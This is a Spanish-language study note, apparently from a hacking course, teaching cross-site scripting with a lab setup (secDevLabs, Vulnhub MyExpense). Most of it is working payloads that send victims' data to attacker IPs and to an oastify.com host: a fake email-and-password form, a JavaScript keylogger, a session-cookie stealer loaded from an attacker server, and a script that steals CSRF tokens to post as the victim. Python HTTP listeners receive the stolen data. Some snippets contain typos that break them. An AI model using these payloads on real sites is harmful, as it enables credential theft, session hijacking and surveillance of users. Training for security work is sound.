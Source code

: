# Cross-Site Scripting

Tags: #XSS #OWASP #Explotacion 

Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

-   **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
-   **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
-   **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de GitHub correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

-   **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)
* [Ejercicios-XSS](https://sudo.co.il/xss/)

Los XSS pueden interpretar código en **HTML y/o  JavaScript** y es ahí en donde podemos colocar las inyecciones.

## HTML

```javascript
<h1>Hola</h1>                                                              /// Podemos hacer inyecciones con codigo HTML
<marquee>Hola</marquee>                                                    /// Podemos usar marquee para que el texto nos salga animado, de izquierda a derecha 

<a href="https://www.ionos.mx/digitalguide/URL">Texto ancla</a>            /// Para colocar un enlace 

<img src="images/imagen.png">                                              /// Para agregar una imagen
<img src="https://test.com/images/imagen.png">

<img src="X" onerror=alert(1) />                                                     /// Para colocar un alert basado en un error 

<iframe src="http://ejemplo.org/demo.html" height="400" width="800" name="demo">     /// Para agregar una pagina dentro de otra pagina con dimenciones 
  <p>Su navegador no es compatible con iframes</p>
</iframe>
```

## JavaScript en la web

```javascript
<script>alert("XSS")</script>          /// Creamos una ventana emergente con codigo javascript que dice XSS
<script>prompt('Mensaje')</script>     /// Ventana emergente para ingresar algun dato                

<script>                               /// Para mandar algo por el metodo POST a un dominio 
  fetch('https://kwklry4t8e18m8q8k5uikgydy44vslga.oastify.com',{method:'POST', mode:'no-cors', body:'omar'});
</script>
```

## Recibir información por medio de un 'Alert'  

```javascript
// Podemos crear un script en donde nos devuelva el correo o algún dato a nuestra IP. 

<script>
    var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");

    if (email == null || email == ""){   
        alert("Es necesario introducir un correo para ver el post");
    } else{
        fetch("http://192.168.68.108/?email=" + email );  
    }
</script>

	/// If = Verificar si el correo esta vacio o no
	/// fetch = Realizar una peticion a nuestra IP de atacante para recibir la informacion 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

## Recibir información 

```html
<!-- También lo podemos hacer con HTML y Javascript para poder hacer un (Phishing), el cual nos regresara a nuestra maquina victima el correo y la passwd de la victima -->

<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contrasena: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
		'</form>';
		
	document.getElementByld("formContainer”).innerHTML = form;
	
	function submitForm() {
		email = document.getElementByld("email").value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.68.108/?email=" + email + "&password="+ password);
	}
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


## Keylogger JavaScript

```javascript
// Podriamos ver las pulsaciones de teclado en tiempo real dentro de la web

<script>
   var k = "";    
   document.onkeypress = funtion(e){
        e = e || window.event;                 // Opcional para que en cualquier navegador funcione el Keylogger
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.68.111/" + k;
    };
</script>

	// K = Variable que almacena las pulsaciones  
```

```bash
❯ python3 -m http.server 80  | grep -oP "GET /\k[^.*\s]+"      # Nos montamos un servidor http 80 para recibir las peticiones y que las filtre 
```

## Redirección al usuario 

```javascript
// Podemos crear un Script para redirigir al usuario a otra pagina web 

<script>
	window.location.href = "https://hack4u.io";
</script>
```

## Cookie Hijacking

Web para identificar un [Json Web Token](https://jwt.io/), este se encuentra en: **Ctrl + Shift + c > Application/Storage > Session**

External JavaScript Source, podemos cargar código desde un servidor externo para tratar de robarle la cookie de sesión.
* Debemos de ver en la web que no tenga activado el **httpOnly** el cual se encuentra en **Application** ya que eso impediría poder robarla.
* Esto seria un **Cookie Hijacking**

```javascript
// 1. Esto lo colocaremos en la web en donde se acontece el XSS

<script src="http://192.168.68.111/test.js"></script>    // Colomos la IP de atacante y el nombre del archivo malicioso
```

```javascript
// 2. En nuestra maquina de atacante crearemos este archivo 'js' con el cual robaremos la Cookie de Sesion del usuario, o tambien  podemos hacer que el usuario victima (admin) haga una accion especifica en la web 

❯ nvim test.js                                                  // Creamos el archivo js

	var request = new XMLHttpRequest();                        // Nos permite controlar peticiones 
	request.open('GET', 'http://192.168.68.111/?cookie=' + document.cookie);
	request.send();         
```

```bash
❯ python3 -m http.server 80               # Nos montamos un servidor http 80 para que la victima acceda al archivo malicioso 

# Después de tener la 'Cookie de Session' podemos pegarla en donde se encuentra la nuestra 'sustituyendola' en la web y así cuando recarguemos la pagina, iniciaremos como el otro usuario.
```

## Victima cree un post en una web 

```javascript
// 1. Esto lo colocaremos en la web de prueba y crearemos la publicación

<script src="http://192.168.68.111/pwned.js"></script>  // Colomos la IP de atacante y el nombre del archivo malicioso
```

```javascript
// Esto se usa una vez obtenido la 'csrf_token y value', los datos los obtenemos con BurpSuite al momento de crear una publicacion 

❯ nvim pwned.js                                                 // Creamos el archivo js

	var domain = "http://localhost:10007/newgossip";
	var req1 = new XMLHttpRequest();
	req1.open('GET', domain, false);
	req1.withcredentials = true;                               // Por si el Token es Dinamico y asi lo volvemos Estatico
	req1.send();
	
	var response = req1.responseText;
	var parser = new DOMParser();
	var doc = parser.parserFromString(respose, 'text/html');
	var token = doc.getElementsByName("_csrf_token")[0].value;
	
	var req2 = new XMLHttpRequest();
	var data = "title=HACKED&subtitle=HaCkEd&text=HAC%20ked&_csrf_token=" + token;   // El %20 es un espacio en urlencode
	req2.open('POST', 'http://localhost:10007/newgossip', false); 
	req2.withcredentials = true;
	req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	req2.send(data);
```

```bash
❯ python3 -m http.server 80            # Nos montamos un servidor http 80 para que el usuario pueda acceder a nuestro archivo malicioso 
```

## Maquina para practicar los XSS

En esta clase, trataremos de resolver una máquina de la plataforma de **Vulnhub** para practicar los ataques XSS.

Vulnhub es una plataforma de seguridad informática que se centra en la creación y distribución de máquinas virtuales vulnerables con el fin de mejorar las habilidades de los profesionales de la seguridad informática. La plataforma proporciona una amplia variedad de máquinas virtuales (VM) que se han configurado para contener vulnerabilidades deliberadas que pueden ser explotadas para aprender y reforzar técnicas de hacking.

A continuación, se proporciona el enlace a la máquina que nos descargamos en esta clase para practicar esta vulnerabilidad:

-   **Máquina MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)


